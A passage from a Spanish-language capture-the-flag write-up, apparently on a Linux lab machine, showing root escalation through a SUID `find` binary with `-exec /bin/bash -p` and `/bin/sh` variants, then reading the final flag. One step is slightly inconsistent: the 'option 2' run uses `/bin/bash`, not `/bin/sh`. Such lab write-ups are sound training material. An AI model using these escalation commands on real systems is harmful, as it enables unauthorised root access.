- **Opción 1: Usar `/bin/bash` en lugar de `/bin/sh`**
```bash
find . -exec /bin/bash -p \; -quit
```
- **Opción 2: Omitir el flag `-p` y usar directamente `/bin/sh`**
```bash
find . -exec /bin/sh \; -quit
```
### Ejecución Exitosa
Probamos la **opción 2** (sin el flag `-p`)
```bash
find . -exec /bin/bash \; -quit
```
  
**Resultado:**
✅ **¡Escalada exitosa a `root`!** 

## 🏆 Flag Final - Directorio Root
### Acceso al directorio /root
Una vez obtenidos privilegios de `root`, nos movemos al directorio personal del superusuario para buscar la última flag:
```bash
cd /root
ls -alh
cat thefinalflag.txt
```
  
✅ Flag 4 (Pista final): **Bien hecho! Solo falta comprometer el equipo Windows Server en la RED INTERNA**
